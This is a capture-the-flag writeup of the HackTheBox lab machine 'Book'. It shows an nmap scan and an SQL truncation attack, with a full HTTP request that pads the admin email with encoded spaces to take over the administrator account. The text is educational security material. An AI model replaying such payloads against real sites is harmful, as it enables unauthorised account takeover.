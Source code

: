 Title:HTB: Book
Date: xx-05-2020 10:35
category:security
tags:security, boot2root, HTB, Linux
meta:security, boot2root, HTB, Linux

<img class="align-left" src="/media/2020.xx/book_card.png" alt="Book card" width="262">


This is a writeup about a retired HacktheBox machine:
[Book](https://www.hackthebox.eu/home/machines/profile/230)
This box is classified as a medium machine published on February the 22th 2020
by [MrR3boot](https://www.hackthebox.eu/home/users/profile/13531).
It involves to

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

We start with an nmap scan. Only the ports 22 (SSH) and 80 (HTTP) are open.

    :::text
    # Nmap 7.80 scan initiated Tue Feb 25 07:26:24 2020 as: nmap --top-ports=10000 -sS -oN nmap 10.10.10.176
    Nmap scan report for 10.10.10.176
    Host is up (0.013s latency).
    Not shown: 8318 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    # Nmap done at Tue Feb 25 07:31:10 2020 -- 1 IP address (1 host up) scanned in 286.11 seconds

## Web

![authentication and signup forms](/media/2020.xx/book_01.png)

We can create an account using on the box.

Once logged in we can browse the book collections, download them and learn
things about the flowers.

![User panel](/media/2020.xx/book_02.png)


The Contact form give us the email address of the platform's adminitrator:
`admin@book.htb`.

Using [SQL truncation](https://resources.infosecinstitute.com/sql-truncation-attack)
we can change the admin account password on the plateform.

We register a new user with a specific long email using Burp repeater.
Our post data request is the following:

    POST /index.php HTTP/1.1
    Host: 10.10.10.176
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.176/index.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 222
    Connection: close
    Cookie: PHPSESSID=9li0llrrcn7tthael9i5s8pmsr
    Upgrade-Insecure-Requests: 1

    name=ppqqe&email=admin%40book.htb%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20*&password=q

We can now logged in as `admin@book.htb` using the password `q`.


![admin panel](/media/2020.xx/book_01.png)


